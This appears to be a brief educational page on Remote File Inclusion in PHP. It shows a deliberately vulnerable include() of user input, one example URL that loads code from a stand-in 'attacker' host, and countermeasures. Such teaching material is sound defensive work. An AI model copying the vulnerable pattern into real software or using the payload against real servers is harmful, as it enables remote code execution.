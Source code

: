 # RFI

**Remote File Inclusion** (**RFI**) is a vulnerability where a server includes
remote files specified by the user.

## Example

Consider the following PHP statements

```php
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

This would be vulnerable to
`http://localhost/page.php?file=http://attacker/malicious_page`.

## Countermeasures

Disallow including remote files if not needed. Otherwise, use a whitelist of
accepted URLs
